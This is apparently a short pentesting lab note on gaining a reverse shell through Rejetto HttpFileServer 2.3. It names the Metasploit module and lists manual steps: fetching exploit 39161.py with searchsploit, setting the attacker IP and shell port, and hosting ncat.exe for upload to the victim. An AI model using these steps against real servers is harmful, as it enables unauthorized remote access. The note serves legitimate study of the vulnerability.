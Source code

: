 # HFS HttpFileServer 2.3 (Rejetto)
## exploitation with metasploit
* msf> use exploit/windows/http/rejetto_hfs_exec
## manual exploitation
* source: https://systemweakness.com/manual-privilege-escalation-rejetto-http-file-server-windows-rce-1148a025c15a
* download ncat.exe from github (we need to host it on the attack machine and the exploit will upload it to the victim machine)
  * https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe
* $ searchsploit -m 39161.py
* $ nano 39161.py
  * change "ip_addr" to tun0
  * "localport" can be leaved at "443" or can be changed to arbitrary port (this will be the reverse shell port that nc will get connection on)
* python -m http.server 80
  * we need it so the exploit can upload the ncat.exe to the victim
  * if we want to change it we probably has to change the commands in the exploit as well (to the appropriate port that we gave to python)
* 
